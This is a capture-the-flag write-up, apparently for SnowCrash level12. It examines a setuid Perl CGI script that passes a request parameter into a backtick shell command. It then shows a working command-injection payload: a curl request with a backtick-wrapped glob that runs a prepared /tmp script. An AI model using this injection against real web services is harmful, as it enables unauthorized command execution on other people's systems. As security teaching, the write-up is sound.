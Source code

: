 # Level12

## Exploring the exercice

```bash 
$ ls -la
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
```

So we have a perl script with setuid/setgid, we have already seen that type of extension in a previous exercice. 

## Inspecting the file

```bash 
$ ./level12.pl 
Content-type: text/html
```

Like in the previous, let's look at the response we get.

```bash
curl -I localhost:4646
HTTP/1.1 200 OK
Date: Wed, 11 Jun 2025 14:16:00 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2
Content-Type: text/html
```

Let's see the code itself

```bash 
$ cat ./level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```


So the scrips takes two arguments, the first argument x, will be capitalized and delete anything after a space. 
The security flaw is from this line  

```bash
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```
where xx gets executed but we can't directly write x="getflag>/tmp/flag" which would be translated as x="GETFLAG>/TMP/FLAG". 


We need to create a file that will get executed. 
```bash
$ touch /tmp/EXPLOIT
$ cat /tmp/EXPLOIT
#!/bin/sh

getflag > /tmp/flag
```

Then we can execute the file 

```bash
$ curl localhost:4646?x='`/*/EXPLOIT`'
..level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : ***********
```

